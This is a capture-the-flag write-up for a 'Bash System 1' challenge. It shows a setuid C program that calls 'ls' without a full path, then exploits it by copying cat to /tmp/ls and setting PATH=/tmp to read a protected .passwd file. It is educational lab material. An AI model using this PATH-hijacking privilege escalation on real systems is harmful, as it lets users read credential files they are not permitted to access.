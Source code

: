 # Bash System 1 - Writeup

We have this script
```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main(void)
{
    setreuid(geteuid(), geteuid());
    system("ls /challenge/app-script/ch11/.passwd");
    return 0;
}

```
With a `ll`, we can also see that we execute this script with the owner's rights, being 'app-script-ch11-cracked', the same owner as '.passwd'
```bash
app-script-ch11@challenge02:~$ ll
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11 7252 May 19  2019 ch11*
```
Which means that everything being done in the script is executed "by the owner".

But we don't want to `ls .passwd`, we want to see what's inside, by using `cat` for example.

So we want to use `cat` instead of `ls` in the script.

One way to do it is to copy the cat executable and rename it 'ls', then changing our `$PATH` to the directory that contains ou new cat executable.
```bash
app-script-ch11@challenge02:~$ cp /bin/cat /tmp/ls

app-script-ch11@challenge02:~$ PATH=/tmp
```

Then we can execute the script, which will cat the password for us
```bash
app-script-ch11@challenge02:~$ ./ch11
!oPe[... flag snipped ...]5
```